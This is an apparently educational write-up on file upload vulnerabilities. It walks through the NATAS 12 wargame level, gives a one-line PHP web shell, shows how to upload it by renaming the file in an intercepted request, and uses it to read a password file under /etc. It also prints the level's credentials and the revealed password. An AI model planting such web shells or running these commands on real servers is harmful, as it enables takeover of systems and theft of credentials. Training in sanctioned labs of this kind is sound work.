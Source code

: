# File upload vulnerability

> Various web applications allow users to upload files (eg images, music files etc). The uploaded files can initiate momentous risk if not handled in a secure way. Depending on the how the file is processed and where it is stored the impact of the file upload vulnerability may vary.

There are two types forms of complications here. The first form is due to the metadata (file name and path). This may replace important files. For example, the attacker can upload a file named index.html in the root folder by upload a malicious file and its filename might look like this "../../../index.html". So you must validate the metadata immensely carefully before you are going to use it. The other form of complication is due to the content in the file.

## Impact
- The attacker might get a web shell.
- Make a phishing page in the website.
- Make a permanent XSS on the website.
- Uploaded sensitive content might be reachable by unintended people.

The severity is very high, an intended code can be executed in the server context or on the client side. The tendency of detection for the attacker is so high. The prevalence is common. This makes the severity of this vulnerability very high.
### Explore it yourself :
 Make a PHP file to test the vulnerability locally in your system with the code mentioned here.
 
  shell.php
```php
<?php
echo system($_GET["cmd"]);
?>
``` 

## Let's try a challenge

NATAS 12 :
 - USERNAME : natas12
 - PASSWORD : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
 
 ![natas12](natas12.1.png)

You can see that we can upload a file here. Let's try to upload a file so that we can get a shell on the website.

Make the shell.php file. We can pass the commands through the URL.


Now let's upload the PHP file. But during the upload, we should change the .jpeg format to .php by intercepting the request.

![natas12](natas12.3.png)

Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.

Let's try to find the files present in the directory where the image is uploaded by giving cmd=ls

![natas12](natas12.4.png)

we can see various files present in the directory on the screen (say jpg, PHP etc.) uploaded by other users for the challenge.

The password for the next level will be in the folder /etc/natas_webpass/
where natas12 is the file containing the password.

so...
```
.php?cmd=cat  /etc/natas_webpass/natas12
```

Gives the password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

![natas12](natas12.5.png)

 This is a basic example of File upload vulnerability.
